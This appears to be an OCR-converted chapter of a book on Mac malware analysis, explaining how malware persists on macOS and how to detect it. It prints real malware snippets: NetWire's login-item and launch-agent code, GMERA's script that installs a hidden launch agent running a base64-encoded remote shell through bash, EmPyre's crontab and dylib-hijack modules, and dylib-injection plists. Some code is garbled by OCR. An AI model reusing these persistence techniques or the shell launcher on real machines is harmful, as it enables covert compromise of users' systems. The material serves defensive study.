

(The Art of Mac Malware) Volume 1: Analysis

# Chapter 0x2: Persistence

| す Note: |
| --- |
| This book is a work in progress. |
| You are encouraged to directly comment on these pages ...suggesting edits, corrections, and/or additional content! |
| To comment, simply highlight any content, then click the ━━ icon which appears (to the |
| right on the document's border). |


Once malware has infected a system (via one of the aforementioned infection vectors or by any other way), more often than not, its next goal is to persist.

Persistence is the means by which malware ensures it will be automatically (re)executed by the operating system on system startup or user (re)login.

Note: The vast majority of Mac malware attempts to gain persistence ...otherwise a system reboot would essentially disinfect the system! Two notable examples of malware that generally do not persist include: . Ransomware: Once ransomware has encrypted user files, there is no need for it to hang around. Thus, such malware rarely persists. ■ In-memory malware: Sophisticated attackers may leverage memory-only payloads that (by design) will not survive a system reboot. The appeal? An incredibly high level of stealth! Malware may avoid persisting if it determines that the system is not of interest, or perhaps if it detects a security tool is running (that would detect a persistence attempt or other actions taken by the malware).

Throughout the years, malware authors have leveraged various persistence mechanisms ranging from common and easily detected login and launch items to more sophisticated and stealthier approaches.

In this chapter, we'll discuss various persistence mechanisms, focusing on the most popular methods (ab)used by Mac malware. Where applicable, we'll highlight malware that leverages each technique.

#### Note:

For a massively comprehensive (albeit now slightly dated) research paper on the topic of malware persistence on Apple's desktop OS, see:

"Methods of Malware Persistence on Mac OS X" (2014) [1]

#### Login Items

Persistence via a Login Item is a common method used by both legitimate software and malware. (...in fact it is the Apple supported way to persist an application or helper [2]).

Examples of Mac malware that install themselves as login items include:

- OSX.Kitm [3]
- OSX.Netwire [4] ●
- OSX.WindTail [5] ●

Once an item (generally an application) has been installed as a Login Item, it will be automatically executed each time the user logs in. The persisted item will run within the user's (desktop) session, inheriting the user's permissions.

Persisted Login Items are visible via the System Preferences application. Specifically in the "Login Items" tab of the "Users and Groups" pane:


Persistent Login Items The 2nd item, 'Finder' is actually OSX.Netwire [4]

Note:

The "Login Item" tab (in the "Users and Groups" pane) does not show the full path to the persisted login item. Malware often takes advantage of this fact, masquerading as legitimate software (such as Finder.app).

To view the full path of login item (to ascertain if it is legitimate or not) either:

- Control+click and select "Show in Finder". ■
- Run a tool such as KnockKnock [6].
- Examine the backgrounditems.btm file, which contains installed Login Items. .

As noted, Login Items are stored (by Apple's backgroundtaskmanagementagent) in a file named backgrounditems.btm found within the ~/Library/Application Support/com.apple.backgroundtaskmanagementagent directory.

For more technical details on this file and its format, see:

"Block Blocking Login Items" [3]

To programmatically persist as a Login Item, malware will most commonly invoke the LSSharedFileListCreate and LSSharedFileListInsertItemURL APIs, though the SMLoginItemSetEnabled API is sometimes used as well [7].

As noted, OSX.Netwire [4] persists as a Login Item (named 'Finder.app'). Here's a snippet of the malware's decompiled code that's responsible for such persistence:

eax = snprintf_chk(&var_6014, 0x400, ...., "%s%s.app", &var_748C, &var_788C); 01 edi = CFURLCreateFromFileSystemRepresentation(0x0, &var 6014, eax, 0x1); 02 03 04 05 ଡି୧ //persist malware as Login Item eax = LSSharedFileListCreate(0x0, kLSSharedFileListSessionLoginItems, 0x0); 07 LSSharedFileListInsertItemURL(eax, kLSSharedFileListItemLast, 0x0, 0x0, 08 09 edi, 0x0, 0x0);

> Loqin Item Persistence (OSX.Netwire)

In the above code snippet, the malware first builds a path to its location on disk (via the CFURLCreateFromFileSystemRepresentation API), then invokes the LSSharedFileList* APIs to persistently install itself as a Login Item.

Now each time the user logs in, the malware will be automatically executed by macOS. Persistence achieved!

#### Launch Items (Agents & Daemons)

The majority of Mac malware leverages Launch Agents or Daemons as a means to gain persistence. In fact, according to Objective-See's "The Mac Malware of 2019" report [8] every piece of analyzed malware (from 2019) that persisted, did so as a launch item!

Launch items are the Apple recommended way to persist non-application binaries (e.g. software updaters, background processes, etc) [2].

Examples of Mac malware that install themselves as launch items (Agents or Daemons) include:

- OSX.CookieMiner [9] ●
- OSX.Siggen [10] ●
- OSX.Mokes [11] ●
- ...and many more! ●

As noted, launch items include both Launch Agents and Launch Daemons. Launch Daemons are non-interactive and run before user login (as root). On the other hand, Launch Agents run once the user has logged in (as the user) and interact with the user session.

To persist as a launch item, the malware can create a property list ('plist') in one of the following launch item directories:

Launch Agents:

- /Library/LaunchAgents ●
- ~/Library/LaunchAgents

Launch Daemons:

- /Library/LaunchDaemons ●


Note:

Apple's Launch Agents live in the /System/Library/LaunchAgents directory while Launch Daemons live in /System/Library/LaunchDaemons.

Since the introduction of System Integrity Protection (SIP) in OS X 10.11 (El Capitan) these OS directories are now protected, therefore malware cannot modify them (i.e. they cannot create a "system" Launch Item). As such, malware is now constrained to creating launch items in the /Library or ~/Library directories.

A Note:

A property list (or "plist") is an XML (or in rarer cases, a binary) document that contains key/value pairs. Such plist files are ubiquitous in macOS.

To view the contents of a property list (plist) file in a human-readable format use either of the following commands:

- plutil -p <path to plist> ■
- defaults -read <path to plist> I

These commands are especially useful, as plists can be stored in various file formats:

"[macOS] allows various interchangeable representations for plists, including XML, JSON

and binary. The former two have the advantage of being human-readable, while the latter offers the most efficient representation on disk, as well as fast serialization/deserialization." [12]

However, as the most common format of property lists is XML, terminal commands such as cat usually suffice.

A launch item's property list file describes the launch item to launchd (the consumer of such plists). In terms of persistence, the most pertinent key/value pairs include:

- Key: Program or Program Arguments: ● Value: Contains the path to (and optionally arguments of), the launch item's script or binary.
- Key: RunAtLoad

Value: Contains a boolean that, if set to true, instructs macOS (specifically launchd), to automatically launch the launch item.



 Note: For a comprehensive discussion on all things related to launch items (including plists and their key/value pairs), see: "A Launchd Tutorial" [13]

Malware that persists as a launch agent or daemon, often contains an embedded launch item property list file (though sometimes the plist is stored in an external resource or even may be downloaded by the malware's installer).

As an example, let's look at OSX.NetWire [4], which earlier we showed persists as a login item. Interestingly, it also persists as a launch agent! (Perhaps the malware authors figured that if one persistence mechanism was detected, the other (if still undetected) would continue to ensure the malware was restarted each time the user logged in).

Below is a snippet of decompiled code from OSX.NetWire, that reveals the malware dynamically configuring an embedded Launch Agent property list template, before writing out to the user's /Library/LaunchAgents directory. As the RunAtLoad key is set to true, the malware will be persistently (re)started by macOS anytime the system is rebooted and the user (re)logs in:

memcpy(esi, "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE plist PUBLIC 01 02 \"-//Apple Computer//DTD PLIST 1.0//EN\n\t\" 03 04 version=\"1.0\">\n<dict>\n <key>Label</key>\n <string>%s</string>\n 02 <key>ProgramArguments</key>\n<array>\n <string>%s</string>\n </array>\n ଡି୧ <key>RunAtLoad</key>\n <true/>\n <key>KeepAlive</key>\n <%s/>\n</dict>\n</plist>", ...); 07 08 09 . . . 10 ਹ ਹ eax = getenv("HOME"); eax = snprintf_chk(&var_6014, 0x400, 0x0, 0x400, "%s/Library/LaunchAgents/", eax); 12 ਹ ਤ eax = snprintf chk(edi, 0x400, 0x0, 0x400, "%s%s.plist", &var 6014, Øxe5d6); 14

Once the malware has executed the above code, we can view the final plist (com.mac.host.plist) that it has written out to disk. via the defaults command:

```
$ defaults read ~/Library/LaunchAgents/com.mac.host.plist
    KeepAlive = 0:
    Label = "com.mac.host"
    ProgramArguments =
        "/Users/user/.defaults/Finder.app/Contents/MacOS/Finder"
    );
    RunAtLoad = 1;
```
Note the path to the persistent component of the malware, in the ProgramArguments key: /Users/user/.defaults/Finder.app/Contents/MacOS/Finder.

#### Note:

The malware programmatically determines the (current) user's name at runtime, as to ensure the full path is valid. (On my analysis virtual machine, the current user is uncreatively named "user").

In order to "hide", the malware creates, then installs itself into a directory named .defaults. On macOS, by default, Finder.app will not display directories that begin with "."

Also as noted, since the RunAtLoad key is set to 1 ('true') the system will automatically launch the malware's binary (Finder.app) each time the user logs in.

Another example of a Mac malware specimen that persists as a launch item is OSX.GMERA [14]. Distributed as a trojanized crypto-currency trading application, it contains a script named run.sh in the Resources/ directory of its application bundle:


This script will install a persistent (hidden) Launch Agent to: ~/Library/LaunchAgents/.com.apple.upd.plist:

# $ cat Stockfoli.app/Contents/Resources/run.sh #! /bin/bash

#### ...

plist text="PD94bWwgdmVyc21vbj01MS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPCFET0NUWVBFIHBsaXN0IF BVQkxJQyAiLS8vQXBwbGUvL0RURCBQTElTVCAxLjAvL0V0IiAiaHR0cDovL3d3dy5hcHBsZS5jb20vRFREcy9Q cm9wZXJ0eUxpc3QtMS4wLmR0ZCI+CjxwbGlzdCB2ZXJzaW9uPSIxLjAiPgo8ZGljdD4KCTxrZXk+S2VlcEFsaX Z1PC9rZXk+Cgk8dHJ1ZS8+Cgk8a2V5PkxhYmVsPC9rZXk+Cgk8c3RyaW5nPmWvb55hcHBsZXMuYXBwcy51cGQ8 L3N0cm1uZz4KCTxrZXk+UHJvZ3JhbUFyZ3VtZW50czwva2V5PgoJPGFycmF5PgoJCTxzdHJpbmc+c2g8L3N0cm luZz4KCQk8c3RyaW5nPi1iPC9zdHJpbmc+CgkJPHN0cmluZz5lY2hvICdkMmhwYkdVZ09qc2daRzhnYzJ4bFDY QWdNVEF3TURBN0IITmpjbVZsYm1BdFdDQnhkV2wwT3lCc2MyOw1JQzEwYVNBNk1qVTNWek1nZkNCNFLYSm5jeU JyYVd4c01DMDVPeUJ6WTNKbFpXNGdMV1FnTFcwZ1ltRnphQ0F0WX1Bb11tRnphQ0F0YVNBK0wyUmxkaTkwWTNB dk1Ua3pMak0zTGpJeE1pNHh0el12TWpVM016TWdNRDRtTVNjN01HUnZibVU9JyB8IGJhc2U2NCAtLWR1Y29kZS B8IGJhc2g8L3N0cmluZz4KCTwvYXJyYXk+Cgk8a2V5P1J1bkF0TG9hZDwva2V5PgcJPHRydWUvPgo8L2RpY3Q+ CjwvcGxpc3Q+"

```
echo "$plist_text" | base64 --decode > "/tmp/.com.apple.upd.plist"
echo "tmpplist - $(cat /tmp/.com.apple.upd.plist))" >> /tmp/loglog
cp "/tmp/.com.apple.upd.plist" "$HOME/Library/LaunchAgents/.com.apple.upd.plist"
echo "tmpplist - $(cat $HOME/Library/LaunchAgents/.com.apple.upd.plist))" >>
/tmp/loglog
launchctl load "/tmp/.com.apple.upd.plist"
```
run.sh OSX.GMERA

Once the malware has been installed, we can examine the (now decoded) Launch Agent property list:

```
$ cat ~/Library/LaunchAgents/.com.apple.upd.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" ...>
<plist version="1.0">
<dict>
  <key>KeepAlive</key>
  <true/>
  <key>Label</key>
  <string>com.apples.apps.upd</string>
  <key>ProgramArguments</key>
 <array>
   <string>sh</string>
   <string>-c</string>
   <string>echo 'd2hpbGUgOjs ... RvbmU=' | base64 --decode | bash</string>
```
</array> <key>RunAtLoad</key> <true/> </dict>

As the ~/Library/LaunchAgents/.com.apple.upd.plist has the RunAtLoad key set to true, the commands specified in the ProgramArguments array (that decode to a remote shell) will be automatically executed each time the user logs in.

As a final example of Launch Item persistence, let's take a look at QSX.EvilQuest [15]. This malware will persist as a Launch Daemon if it is running with root privileges. (Recall that to create a Launch Daemon, one has to possess such privileges). And what if the malware finds itself only running with user privileges? In that case, it simply creates a user Launch Agent.

OSX.EvilQuest [15] contains an embedded property list template for launch item persistence. In an attempt to complicate analysis though, this template is encrypted. However, in a debugger we can simply wait until the malware (named toolroomd) has decrypted the embedded property list template. Then, view it (now unencrypted) in memory:

#### $ lldb /Library/mixednkey/toolroomd

(11db) x/s $rax 0x100119540: "<?xml version="1.0" encoding="UTF-8"?>\n<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" " version="1.0">\n<dict>\n<key>Label</key>\n<string>\n\n<key>ProgramArguments </key>\n<array>\n<string>%s</string>\n<string>--silent</string>\n</array>\n\n<key>RunA tLoad</key>\n<true/>\n\n<key>KeepAlive</key>\n<true/>\n\n</dict>\n</plist>"

# decrypted property list template (OSX.EvilQuest)

#### . Note:

In subsequent chapters we cover both debugging and defeating such anti-analysis techniques:

- Chapter 0x0A: Debugging ■
- Chapter 0x0B: Anti-Analysis

Once OSX.EvilQuest has completed its installation and persistently infected the system, we can also simply read the launch daemon property list (named com.apple.questd.plist) that is stored in the /Library/LaunchDaemons/ directory:

```
$ cat /Library/LaunchDaemons/com.apple.questd.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>questd</string>
    <key>ProgramArguments</key>
    <array>
        <string>sudo</string>
        <string>/Library/AppQuest/com.apple.questd</string>
        <string>--silent</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <true/>
</dict>
```
As the RunAtLoad key is set to true, the value held in the ProgramArguments array will be automatically executed each time the system is rebooted. Specifically, macOS will execute malware (com.apple.questd) via: sudo /Library/AppQuest/com.apple.questd --silent.

#### Cron Jobs

With core foundations in BSD, macOS affords several "unix-like" persistence mechanisms that may be (ab)used by Mac malware. Cron jobs are one such example, providing a way for items (scripts, commands, binaries, etc.) to be persistently executed at certain intervals.


For a comprehensive discussion on Cron Jobs, including the syntax of job creation, see:

"Cron" [16]

To register a persistent cron job, malware can invoke the built-in /usr/bin/crontab utility.

Abusing cron jobs for persistence is not particularly common in macOS malware. However, the popular (open-source) post exploitation agent EmPyre [17] (which is leveraged by various Mac malware), provides an example. Specifically, in its "crontab" persistence module, EmPyre directly invokes the crontab binary to persistently install itself:

```
cmd = 'crontab -l | { cat; echo "%s * * * %s"; } | crontab -'
91
    subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE).stdout.read()
02
03
04
    subprocess.Popen('crontab -l', shell=True,
૭૨
                       stdout=subprocess.PIPE).stdout.read()
ଡି୧
07
    subprocess.Popen('chmod +x %s', shell=True,
08
                       stdout=subprocess.PIPE).stdout.read()
```
Another example of Mac malware that persists via a Cron Job is OSX.Janicab [18]:


#### A Note:

Generally, persistent Cron Jobs are automatically executed at specified intervals (such as hourly, daily, weekly), versus at specified events, such as user login. (Though there is a '@reboot' option).

For more details on the scheduling options, see the crontab's man page ($ man crontab) or:

"Scheduling Jobs With Crontab on macOS" [19]

To enumerate persistent crontabs, execute the crontab -l command

 Note: The crontab -l command lists the scheduled jobs for the user who ran the command. Thus for example, to view root's Cron Jobs (vs. the logged in user), run crontab from a root prompt, or via sudo. Or (with adequate privileges), simply examine all files in the /var/at/tabs/ directory.

#### Login/Logout Hooks

Yet another way to achieve persistence on macOS is via login and logout hooks:

"By creating a login or logout hook, a script or command can automatically be executed whenever a user logs in or out." [1]

These "hooks" are stored in the ~/Library/Preferences/com.apple.loginwindow.plist file as key value pairs. The key's name should be either LoginHook or LogoutHook, with a string value set to the path execute at either login or logout:

| Login/Logout Hooks |  | automatically runs on login, or logout |  |
| --- | --- | --- | --- |
| $ defaults write com. apple. loginwindow LoginHook /usr/bin/hook.sh |  |  |  |
| <?xml version="1.0" encoding="UTF-8"?> 01 |  |  |  |
| 02 | <! DOCTYPE plist ... > |  |  |
| 03 | <plist version="1.0"> |  |  |
| 04 | <dict> |  |  |
| 05 <key>LoginHook</key> |  |  |  |
| 06 <string>/usr/bin/hook.sh</string> |  |  |  |
| 07 | </dict> |  | binary     script |
| 08 | </plist> |  | command |
| ~/Library/Preferences/com.apple.loginwindow.plist |  |  |  |

# Note: There can only be one LoginHook and one LogoutHook key/value pair specified at any given time. However, if malware encounters a system with a (legitimate) login/logout hook, it would be possible to append additional commands to the existing hook to gain persistence. Also, it is worth noting that such hooks are currently deprecated by Apple, and thus may cease to work in a future version of macOS.

#### Dynamic Libraries

The majority of persistence mechanisms (ab)used by Mac malware ensure that an application or binary will be automatically (re)launched by the OS. While this is all well and good in terms of gaining persistence, it results in a new process that an inquisitive user may notice if they peek at a process list.

Far more stealthy persistence mechanisms leverage dynamic libraries (or dylibs).

#### ノ Note:

Apple's developer documentation [20] explains the reasoning and (legitimate) use of dynamic libraries:

"Apps are rarely implemented as a sinqle module of code because operating systems implement much of the functionality apps need in libraries. To develop apps, programmers link their custom code against these libraries to get basic functionality... However, linking to libraries creates large executable files and wastes memory. One way to reduce the file size and memory footprint of apps is to reduce the amount of code that is loaded at app launch. Dynamic libraries address this need; they can be Loaded either at app launch time or at runtime"

We'll first discuss generic methods of dylib persistence that have the potential to be (ab)used by malware to target a wide range of processes. Following this, we'll explore specific plugin-based persistence approaches that malware can leverage to obtain a stealthy means of (re)execution.

#### ! Note:

Using dylib injection techniques to achieve persistence requires that the target process is started either automatically or regularly by the user (e.g. their browser). In other words, the malicious dylib piggy-backs off the target process's persistence.

Beyond persistence, malware authors may abuse such techniques as a means to subvert processes of interest (for example a process that has been granted access to the user's webcam). Although this chapter is focused on persistence, we briefly discuss this angle as well.

Via the DYLD_INSERT_LIBRARIES environment variable, a (possibly) malicious library can be 'injected' at load time into a target process. This is articulated in the "Methods of Malware Persistence on mac OS X" [1] which states:

"Specifically, when Loading a process, the dynamic loader will examine the DYLD_INSERT_LIBRARIES variable and load any libraries it specifies. By abusing this technique, an attacker can ensure that a malicious library will persistently be loaded into a targeted process whenever that process is started." [1]

#### Note:

For (more) technical details on this technique, see:

"Simple code injection using DYLD INSERT LIBRARIES" [21]

Though normally leveraged as an injection technique, as noted in the quotation above, malware can also abuse the DYLD_INSERT_LIBRARIES to achieve persistence, gaining automatic execution each time the target process is started. If the process is started automatically or commonly by the user, this affords a fairly reliable and highly stealthy persistence technique.

If targeting a launch item (a launch agent or launch daemon), malware can modify the item's property list. This can be done by inserting a key/value pair where the key, EnvironmentVariables, references a dictionary containing a DYLD INSERT LIBRARIES key and a value that points to the dylib to "insert".

For applications, the approach is fairly similar but involves modifying the application's Info.plist file and inserting a similar key/value pair, albeit with a key name of LSEnvironment.

#### . Note:

Since 2012 when OSX.FlashBack.B [22] abused this technique, Apple has drastically reduced the "power" of the DYLD_INSERT_LIBRARIES.

For example the dynamic loader (dyld) ignores the DYLD_INSERT_LIBRARIES environment variable in a wide range of cases, such as setuid and platform binaries. And, starting with macOS Catalina, only 3rd-party applications that are not compiled with the hardened runtime (which "protects the runtime integrity of software" [22]), or have an exception such as the com.apple.security.cs.allow-dyld-environment-variables entitlement) are susceptible to dylib insertions.

For more details on the security features afforded by the hardened runtime, see Apple's documentation:

"Hardened Runtime" [23]

The (in)famous OSX.FlashBack.B [22] malware abused DYLD_INSERT_LIBRARIES to maintain persistence by targeting users' browsers:

> "A DYLD INSERT LIBRARIES environment variable is also added to the targeted browsers as a launch point. This is done by inserting a LSEnvironment entry to the corresponding Info.plist of the browsers" [22]:

| $ cat /Applications/Safari.app/Contents/Info.plist: |
| --- |
| <key>LSEnvironment</key> |
| <dict> |
| <key>DYLD INSERT LIBRARIES</key> |
| <string>/Applications/Safari.app/Contents/Resources/%payload filename%</string> |
| </dict> |

### DYLD_INSERT_LIBRARIES persistence (OSX.FlashBack.B)

To detect the abuse of this dylib persistence technique, you can first enumerate all installed launch items and applications, then check the relevant property list for the inclusions of a DYLD INSERT LIBRARIES key/value pair.

A more modern approach to dylib injection involves a technique I've coined "dylib proxying". In short, a library that a target process depends on is replaced by a malicious dylib. To ensure legitimate functionality is not lost, the malicious library "proxies" requests to/from the original library.

♪ Note:

To ensure persistence, malware may target processes that are automatically started by the OS, or launched by the user on a regular basis.


At an implementation level, such proxying is achieved by creating a dynamic library that contains a LC_REEXPORT_DYLIB load command. Though we've yet to see malware abuse this technique (as of 2020), it has been leveraged by security researchers in order to "exploit" various applications ...such as Zoom.app's access to the webcam [24]. In the case of Zoom.app, a malicious proxy library targeting Zoom's libssl.1.0.0.dylib was created, containing a LC_REEXPORT_DYLIB load command pointing to the original SSL dynamic library (renamed _libssl.1.0.0.dylib):

| $ otool -1 /Applications/zoom.us.app/Contents/Frameworks/libssl.1.0.0.dylib |
| --- |
| Load command 11 |
| cmd LC REEXPORT DYLIB |
| cmdsize 96 |
| name /Applications/zoom.us.app/Contents/Frameworks/ libssl.1.0.0.dylib |
| time stamp 2 Wed Dec 31 14:00:02 1969 |
| current version 1.0.0 |
| compatibility version 1.0.0 |

The LC_REEXPORT_DYLIB_load command tells the dynamic loader (dyld), "hey, while the [malicious] library doesn't implement the required functionality you're Looking for, I know who does!"

In our example, which targets Zoom.app, once the malicious proxy dylib has been created, anytime Zoom is launched by the user, the library will be automatically loaded as well and its constructor executed. This affords both persistence and, as noted, access to Zoom's privacy permissions (e.g. mic and camera access).

A more stealthy (albeit less generic) version of dylib proxying is "dylib hijacking". [25] In a dylib hijack, an attacker finds an application that attempts to load dynamic libraries from multiple locations. If the primary location does not contain the dylib, an attacker can plant a malicious dylib, which will then be loaded by the application. In

the example below, an application attempts to load blah.dylib first from the application's Library/ directory (then from the /System/Library directory). Since blah.dylib does not exist in the application's Library/ directory, and attacker can add a malicious dylib here (blah.dylib) which will be automatically loaded at runtime:


dylib hijacking

As noted, this technique requires an application specifically vulnerable to a dylib hijack and, for persistence, one that is (ideally) automatically started by macOS. In previous versions of macOS (OS X 10.10), Apple's PhotoStreamAgent was a perfect candidate as it was both vulnerable to dylib hijacking and automatically started each time the user logged in:

# GAINING PERSISTENCE toStreamAgent ('iCloudPhotos.app') gure hijacker against PhotoFoundation (dylib) copy to /Applications/iPhoto.app/Contents/ oginItems/PhotoFoundation.framewor Librarv Versions/A/PhotoFoundation PhotoStreamAgent

dylib hijacking Apple's PhotoStreamAgent

| す Note: |
| --- |
| To complement my initial research on dylib hijacking, I released several tools to scan |
| a macOS system for potentially vulnerable applications: |
| • Dylib Hijack Scanner [26] |
| • Dylib Hijack Scanner App [27] |

Though (publicly known) Mac malware has not been known to leverage this technique in the wild, the popular open-source post-exploitation agent EmPyre does have a persistence module that leverages dylib hijacking [28]:

| Branch: master ▼ |  | EmPyre / lib / modules / persistence / osx / CreateHijacker.py / <> - Find file Copy path |  |  |
| --- | --- | --- | --- | --- |
|  | 547 lines (397 sloc) | 17.2 KB Raw Blame History | 间 2 |  |
| 3 |  |  |  |  |
| 5 |  |  |  |  |
| 7 |  | self.info = { |  |  |
| 9 |  | 'Name' : 'CreateDylibHijacker' , |  |  |
| J 9 |  |  |  |  |
| 11 |  | # list of one or more authors for the module |  |  |
| 12 |  | 'Author': ['@patrickwardle,@xorrior'], |  |  |
| J3 |  |  |  |  |
| 14 |  | # more verbose multi-line description of the module |  |  |
| ਹ ਟ |  | 'Description': ('Configures and EmPyre dylib for use in a Dylib hijack, given the path to a legitim |  |  |
| 16 |  |  |  |  |
|  |  |  |  | Empyre's dlyib hijacking persistence module [13] |
| ਹ | import base64 |  |  |  |
| 2 | class Module: |  |  |  |
| 4 | def | init (self, mainMenu, params=[]): |  |  |
| ნ |  | # metadata info about the module, not modified during runtime |  |  |
| 8 |  | # name for the module that will appear in module menus |  |  |

For a deeper dive into dylib proxying/hijacking, see:

- "Dylib hijacking on OS X" [25] ■
- "MacOS Dylib Injection through Mach-O Binary Manipulation" [29]


For more information on Apple's changes and how 3rd-party applications can protect against these attacks, see:

"DYLD INSERT LIBRARIES DYLIB injection in macOS / OSX" [30]

However, older versions of applications, or those that have not (yet) opted into the hardened runtime, may still be vulnerable to this persistence mechanism.

#### Plugins

By design, various Apple daemons and 3rd-party applications support plugins or extensions. While plugins can legitimately extend the functionality of a program, malware may abuse such plugin functionality to achieve stealthy persistence within the context of the process.

#### Note:

As with other persistence mechanisms that leverage the loading of libraries or other components in a process, at process load time, said persistence is only triggered when the target process is started (either automatically or by the user).

An added bonus of such persistence is (stealthy) execution within the context of the target process ...a process which may have access to certain entitlements, devices, and/or sensitive resources, access that the malicious code then inherits.

All modern browsers support plugins (or extensions). In order to target the user's browser, malware authors are quite fond of creating malicious browser extensions. Such extensions are automatically loaded and executed by the browser each time it is started. Besides providing a method of persistence, these malicious plugins also provide direct access to the user's browsing sessions (to display ads, hijack traffic, extract saved passwords and more).


An example of a malicious browser extension is "Pitchofcase". In a comprehensive writeup by security researcher Phil Stokes, "Inside Safari Extensions | Malware's Golden Key to User Data" (2018) [16], it's noted that:

> "We recently observed a Safari adware extension called "Pitchofcase" which exhibited several interesting behaviours.

At first blush, Pitchofcase seems like any other adware extension: when enabled it redirects user searches through a few pay-for-click addresses before landing on pitchofcase[.]com. The extension runs invisibly in the background without a toolbar button or any other means to interact with it." [31]


### "Pitchofcase" (adware) browser extension [31].

Of course other applications that support plugins may be similarly subverted. For example, in "iTunes Evil Plugin Proof of Concept," [32] security researcher Pedro Vilaça (@osxreverser) previously illustrated how an attacker could coerce iTunes (on OS X 10.9) to load a malicious plugin:

> "The [iTunes] plugin folder is writable by [the] current logged in user so a trojan dropper can easily load a malicious plugin. Or it can be used as [a] communication channel for a RAT" [32].

Though the blog post focused on subverting iTunes in order to steal users credentials, the malicious plugin could also provide persistence (as it's automatically loaded and executed each time iTunes is started).

Finally, various Apple daemons, by design, support 3rd-party plugins. This could potentially be leveraged by malicious plugins in order to afford malware stealthy persistence (though currently no malware is known to (ab)use these plugins):

Several such daemons and their plugins include:

- Authorization Plugins See: "Using Authorization Plug-ins" [33]
- Directory ServicesPlugins See: "Two macOS persistence tricks abusing plugins" [34]
- QuickLook Plugins See: "macOS persistence - Spotlight importers and how to create them" [35]
- Spotlight Importers See: "Writing Bad @$$ Malware for OS X" [36]

| PLUGIN PERSISTENCE abusing system plugins for persistence |  |  |  |
| --- | --- | --- | --- |
| V Document tvpes |  | Array (1 item) |  |
| V Item 0 |  | Dictionary (2 items) |  |
| Role |  | String MDImporter |  |
|  | V Document Content Tvpe UTIs | Arrav 1 item |  |
|  | Item 0 | String | public.obiective-c- |
| spotlight importer template |  | plugin match type |  |
| $ reboot |  |  |  |
| $ lsof -p <pid of mdworker> |  |  |  |
| /System/Library/Frameworks/CoreServices.framework/../Metadata.framework/Versions/A/Support/mdworker |  |  |  |
| ibrary/Spotlight/persist.mdimporter/Contents/MacOS/persist |  |  |  |
| no new procs |  |  |  |
|  |  |  | abuses legitimate |
| data 'sniffer' |  |  | functionality of OS X |

abusing a spotlight importer (plugin) for persistence

A Note:

In each new release of macOS, Apple continues to limit the impact of plugins (through entitlements, code-signing checks and more).

#### Scripts

There are various legitimate system scripts that Mac malware can surreptitiously modify in order to achieve persistence. Though this number is dwindling (goodbye rc.common!), others may still afford a means of persistence.

In his thorough and comprehensive "OS X Incident Response" book [37] from 2016, author Jaron Bradley (@jbradley89) discusses persistence via periodic scripts:

> "ALthough not a highly advanced ASEP [AutoStart Extension Points], periodic is a one that is less thought of. This persistence mechanism... is set up with folders containing bash scripts to run daily, weekly, or monthly ... at /etc/periodic" [37]

Though this directory is owned by root, malware with adequate privileges may be able to create (or subvert) a periodic script in order to achieve persistence at regular intervals.

$ ls -lart /etc/periodic/ drwxr-xr-x 160 Aug 24 2019 mon 352 Aug 24 2019 da drwxr-xr-x 2 22:11 week] drwxr-xr-x 96 Feb wheel

#### ♪ Note:

Though periodic scripts are (conceptually) rather similar to cron jobs, there are a few differences, such as the fact that they are handled by a separate daemon:

See :

"What is the difference between "periodic" and "cron" on OS X?" [38]

Bradley also discusses persistence via the at command (in a chapter titled "System Startup and Scheduling"). [37]

Specifically he states:

"'At tasks' are used to schedule tasks at specified times ...they are one time tasks ...but will survive a system reboot." [37]

Sounds perfect for persistence!

Note:

On a default install of macOS, the at scheduler is disabled, However, with root privileges it can be (re)enabled (e.g. by malware).

To create an at job, malware (after enabling the at scheduler), could simply pipe persistent commands into /usr/bin/at while specifying the time and date of execution.

The /usr/bin/atq utility, as noted in its man page [39], "lists the user's pending [at] jobs, unless the user is the superuser; in that case, everybody's jobs are listed"

Legitimate (and/or malicious) at jobs are stored in the /private/var/at/jobs/ directory.

#### Event Monitor Rules

Described in Volume I of Jonathan Levin's *OS Internal book(s) [40], the Event Monitor daemon (emond) may be (ab)used by malware on macOS to achieve persistence. A 2018 writeup titled "Leveraging Emond on macOS For Persistence" [41] delves into this more, illustrating exactly how it's accomplished, noting that the "run command [emond] will execute any arbitrary system command". [41] As emond is automatically launched by the OS during system boot, at which time it processes and executes any specified commands, malware can simply create a command for the daemon to automatically execute.

The MITRE ATT&CK project describes persistence via emond as well:

"The emond binary at /sbin/emond will Load any rules from the /etc/emond.d/rules/ directory and take action once an explicitly defined event takes place. The rule files are in the plist format and define the name, event type, and action to take. Adversaries may abuse this service by writing a rule to execute commands when a defined event occurs, such as system start up or user authentication." [42]

